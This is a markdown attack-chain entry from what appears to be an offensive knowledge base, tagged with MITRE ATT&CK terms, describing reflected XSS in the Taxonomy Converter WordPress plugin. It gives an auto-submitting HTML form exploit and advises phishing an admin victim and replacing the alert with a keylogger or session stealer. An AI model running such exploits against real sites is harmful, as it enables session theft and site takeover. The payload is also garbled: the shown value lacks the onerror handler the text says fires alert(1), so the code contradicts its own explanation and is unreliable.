

---
tags:
  - xss
  - reflected-xss
  - wordpress
  - plugin-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - >-
    [[procedures/Exploit-Reflected-XSS-via-Malicious-Form-in-Taxonomy-Converter]]
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:46:38.381Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in the Taxonomy
  Converter WordPress plugin by crafting and submitting a malicious form to
  inject JavaScript via the unescaped 'tax' parameter.
skill_level: intermediate
impact_level: high
id: 6227585d-5162-453f-a465-aad2b4e6801f
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation via 'tax' Parameter in Taxonomy Converter WordPress Plugin

Multi-stage attack chain demonstrating a complete attack workflow exploiting reflected XSS in the Taxonomy Converter WordPress plugin.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses browser or basic HTML crafting)

### Target Environment

- WordPress site with Taxonomy Converter plugin installed and active
- Access to /wp-admin/ endpoint (admin privileges not required for exploitation, but admin victim maximizes impact)
- Network access to the target WordPress admin URL

### Initial Access Requirements

- Ability to trick a victim (e.g., admin user) into visiting a malicious link
- No prior credentials needed; relies on social engineering for link click

## Detailed Attack Procedures

### Step 1: Craft Malicious Form
procedure: [[procedures/Exploit-Reflected-XSS-via-Malicious-Form-in-Taxonomy-Converter]]

**Objective**: Create an HTML page with a form that auto-submits a POST request containing an XSS payload in the 'tax' parameter to the vulnerable endpoint.

**Instructions**: Save the following HTML code as a local file (e.g., xss-exploit.html) and host it or send it to the victim via email/phishing. The form action includes the vulnerable URL with partial parameters, and the 'tax' payload is set to inject HTML/JS into the echoed error message.

```html
<!DOCTYPE html>
<html>
<head>
    <title>XSS Test</title>
</head>
<body>
    <form id="xssForm" action="/wp-admin/admin.php?import=wptaxconvert&step=2" method="POST">
        <input type="hidden" name="tax" value="categoryx'>">
        <input type="hidden" name="test" value="some value\n">
    </form>
    <script>
        document.getElementById('xssForm').submit();
    </script>
</body>
</html>
```

Replace the action URL's domain/path with the target's (e.g., https://target.com/wp-admin/...). The payload "> closes the href attribute and injects a script tag equivalent.

**Expected Output**: When loaded, the form auto-submits, redirecting to the target and triggering the XSS.

**Success Indicators**:
- Form submission occurs without errors
- Victim is redirected to the admin.php endpoint

### Step 2: Trigger XSS Execution
procedure: [[procedures/Exploit-Reflected-XSS-via-Malicious-Form-in-Taxonomy-Converter]]

**Objective**: Upon submission, the vulnerable plugin echoes the 'tax' parameter unescaped in an error message, executing the injected JavaScript in the victim's browser.

**Instructions**: Ensure the victim (ideally an admin) loads the crafted HTML. The POST request will hit the endpoint, and the response will include the injected payload in the 'try again' link, causing JS execution.

The echoed HTML in the response will resemble:

```html
<p>Uh, oh. Something didn’t work. Please <a href="admin.php?import=wptaxconvert&amp;tax=categoryx'>">try again</a>.</p>
```

This executes alert(1) due to the onerror handler.

**Expected Output**: JavaScript alert pops up in the victim's browser, confirming execution. In a real attack, replace alert(1) with malicious code (e.g., keylogger or session stealer).

**Success Indicators**:
- Alert or custom JS effect observed
- Browser console shows JS execution errors or logs
- If victim is admin, potential for further actions like adding backdoors

## Attack Chain Summary

### Key Achievements

1. Successful injection of XSS payload via unescaped 'tax' parameter
2. Arbitrary JavaScript execution in victim’s browser context
3. Potential for data theft, session hijacking, or admin privilege abuse leading to site takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
